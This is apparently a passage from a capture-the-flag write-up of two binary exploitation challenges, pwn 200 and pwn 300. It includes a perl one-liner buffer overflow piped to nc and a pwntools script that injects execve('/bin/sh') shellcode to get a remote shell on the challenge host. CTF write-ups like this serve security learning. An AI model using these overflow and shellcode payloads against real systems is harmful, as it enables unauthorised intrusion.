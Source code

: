 Screaming into the terminal nets us the flag:

`MCA{50dce13d1d6a937b6f0e211d090c7328f9f90ad3}`

## pwn 200
```
I heard pwn200 is slightly harder than pwn100.

nc 44.197.231.105 3001
```

```
Welcome to pwn200! Your job is to make this function return to the print_flag function (print_flag address: 0x8049256).

The program will now read 60 bytes into a 20 byte buffer at 0xffdb60ec:
```

They give you the print_flag address, so screaming into the terminal for 48 bytes, followed by the print_flag address (in little endian) gives the flag.

`(perl -e 'print "A" x 48 . "\x56\x92\x04\x08" . "\n"') | nc 3.238.30.178 3001`

`MCA{98a4b4c15f3b1ae77891e12ab412d84fbd3f89e7}`

## pwn 300
```
I heard pwn300 is slightly harder than pwn200.

nc 44.197.231.105 3002
```

```
Welcome to pwn300! Your job is to make this program execute shellcode to read the flag.txt file on the remote server. (Hint check out this function: 0x8049216)

The program will now read 80 bytes into a 20 byte buffer at 0xffd8e52c:
```
Cheeky of them to tell us to check out a function, of which we can't view the behavior, since we don't have a binary! *grumble grumble*

If you want the details of how shellcode works, you can view my other writeups available. For the sake of simplicity, I'll post my script here:

```py
from pwn import *

r = remote('44.197.231.105', 3002)
r.recvuntil(b' at 0x')
stack = int(r.recvuntil(b':', drop=True), 16)
sc = b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
lsc = len(sc)
r.sendline(sc + b'A'*(48-lsc) + p32(stack))
r.interactive()
```
